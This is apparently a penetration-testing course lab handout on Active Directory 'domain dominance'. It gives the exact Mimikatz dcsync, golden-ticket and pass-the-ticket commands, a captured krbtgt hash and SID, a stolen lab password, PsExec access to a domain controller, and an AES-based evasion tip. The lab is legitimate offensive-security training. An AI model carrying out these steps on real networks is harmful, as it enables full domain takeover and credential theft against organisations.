










Lab 5.5: Domain Dominance
Objectives
- We will extract the Kerberos keys for the krbtgt account
- We will create a golden ticket with the obtained key
- We will use the golden ticket to access the domain
Lab Setup
You’ll need to have your Slingshot Windows image booted for this lab. From the Slingshot Windows image, we will access TRINTIY, which is a system joined to the sec560.local domain, for which we have obtained a valid set of domain credentials. From here, our goal is to obtain the Kerberos keys for the krbtgt account, which we can use to create a golden ticket.
Lab – Step-by-Step Instructions
1. Start by opening a PsExec session to TRINITY (10.10.10.10), which is joined to the sec560.local domain
PLEASE MAKE SURE YOU RUN THE FOLLOWING COMMANDS IN A WINDOWS COMMAND PROMPT:
First, cd to the directory where our PsExec is located and list the directory contents using dir pse*.exe to find executables beginning with "pse":
C:\Users\sec560> cd C:\Tools\SysinternalsSuite
C:\Tools\SysinternalsSuite> dir pse*.exe
Volume in drive C has no label.
Volume Serial Number is FA12-EC34
Directory of C:\Tools\SysinternalsSuite
06/19/2019 10:08 PM 339,096 PsExec.exe
06/19/2019 10:08 PM 374,944 PsExec64.exe
2 File(s) 714,040 bytes
0 Dir(s) 15,847,223,296 bytes free
In the directory, you will find the PsExec64.exe executable, which we will use to start a session toward TRINTITY (10.10.10.10). We will accept the PsExec EULA (using the -accepteula flag) and use the domain user we obtained in the Kerberos lab called "svcsqlserver" (using the -u flag):
C:\Tools\SysinternalsSuite> PsExec64.exe -accepteula -u sec560.local\svcsqlserver \\10.10.10.10 cmd.exe
You will be requested to enter the password Jabbathehut23, which you retrieved in the Kerberos lab.
Note: The admin should lose his nerd card. He spelled Jabba's species wrong (Hutt) and confused it with the pizza place. The password has a single
tin "hut".

2. Browse the C:\Tools\Mimikatz\x64 directory
We have already prepared the Mimikatz toolkit for your use on the TRINTIY machine. It's available in C:\Tools\Mimikatz\x64; switch to the folder using cd and view its contents using dir:
C:\Windows\system32> cd C:\Tools\Mimikatz\x64 C:\Tools\Mimikatz\x64> dir

3. We will now use Mimikatz to extract the Kerberos keys from the domain controller
We will use the dcsyn command within Mimikatz to connect to the domain controller and extract the Kerberos keys for the krbtgt user:
C:\Tools\Mimikatz\x64> mimikatz.exe mimikatz # lsadump::dcsync /user:krbtgt
The output should reveal information for the krbtgt account, such as the SAM information and hashed credentials. As explained during the course, this will also include the RC4 and AES Kerberos keys.
For this exercise, we will use the NT hash (which is the RC4 key) of the krbtgt account. Copy the hash you find next to Hash NTLM: to your clipboard.

4. Retrieve domain information to create the golden ticket
Before we can create the golden ticket, we would need to get a bit more information on the domain. First, we need to know the fully qualified domain name. In order to find this, we need to exit our Mimikatz session. This can be done by entering the exit command.
mimikatz # exit
We can find the fully qualified domain name by retrieving the IP configuration:
C:\Tools\Mimikatz\x64> ipconfig /all
If we scroll to the beginning of the output, we can see the Primary DNS Suffix being sec560.local. This is the fully qualified domain name we need.

We will also need the domain SID. We can find this by using the whoami /user command:
C:\Tools\Mimikatz\x64> whoami /user
The domain SID starts with S-1-5and ends with 2889670365 (see highlighted section in screenshot).

5. Create a golden ticket
With the above information, we can now create our golden ticket. Please launch Mimikatz again and use the following command to create our golden ticket:
C:\Tools\Mimikatz\x64> mimikatz.exe mimikatz # kerberos::golden /rc4:5525e655c06299c7e4179e2cc5621fb3 /user:Administrator /domain:sec560.local /sid:S-1-5-21-721047592-4068106649-2889670365
Some notes on the arguments for this command:
/rc4: We will use RC4 encryption using the NT hash we previously stole (5525e655c06299c7e4179e2cc5621fb3) as a key/user: The target username isAdministrator/domain: the target domain name issec560.local/sid: The target domain SID (Security Identifier)
Please carefully observe the output of the command, and you will notice the interesting properties of the ticket:
- It is valid for a period of 10 years
- The ServiceKey that is used is the krbtgt RC4 key (NT hash)
A small note on evasion: If we want to make our attack more stealthy, we would choose to steal the AES keys of the krbtgt account and generate a golden ticket using AES instead of RC4. In a typical environment, AES is the dominant Kerberos encryption type in use and using RC4 is an anomaly in and of itself that would warrant further investigation.

6. Abuse the golden ticket
The above command created a golden ticket and saved it locally. Please close the command prompt you were using up until this point. We will open a Windows File Explorer window to the TRINITY machine at 10.10.10.10 by entering the following network location:
\\10.10.10.10\c$\tools\Mimikatz\x64

Please copy the ticket.kirbi file and paste it to your Desktop.

You can close the Windows File Explorer window afterwards. Open an elevated (Administrator) command prompt, cd to C:\Tools\Mimikatz\x64, and launch Mimikatz.
C:\Windows\system32> cd C:\Tools\Mimikatz\x64 C:\Tools\Mimikatz\x64\> mimikatz.exe
We will now inject the golden ticket into memory using the kerberos::pttcommand.
mimikatz # kerberos::ptt C:\Users\sec560\Desktop\ticket.kirbi

If injected correctly, the output should show * File: 'C:\Users\sec560\Desktop\ticket.kirbi': OK
We can close Mimikatz by entering the exitcommand.
To verify the ticket is loaded in memory, we can use the klistcommand:
mimikatz # exit C:\Tools\Mimikatz\x64\> klist
This will show all cached tickets currently stored in memory.

In a real-life situation, we can use this ticket to access the domain with administrative privileges.
Since our Slingshot Windows machine is not domain joined AND you are all attacking the same domain, we won't use this ticket to access the domain controller (as you'll be fighting for control).
In a real-life penetration test, you would continue using the ticket to access the domain controller. We have explained the required steps below, but please do NOT execute these on our test environment:
When the ticket is loaded in memory, we can open a command prompt and use PsExec to access the domain controller:
C:\Tools\SysinternalsSuite> PsExec64.exe -accepteula \\dc01 cmd.exe
This command will open a remote command prompt on the domain controller. The connection might take up to a minute. Once you receive the new prompt, please execute the following command:
C:\Windows\system32> whoami
The output should be:
C:\Windows\system32> whoami sec560.local\Administrator
This confirms you are now running with Domain Administrator privileges!
Conclusion
In this lab, we looked at how we can use a domain user with administrative privileges to obtain the Kerberos keys from the krbtgt user. This information, together with the easily retrievable domain information, such as the fully qualified domain name and domain SID, allowed us to create a golden ticket and use this ticket to access the domain with administrative privileges.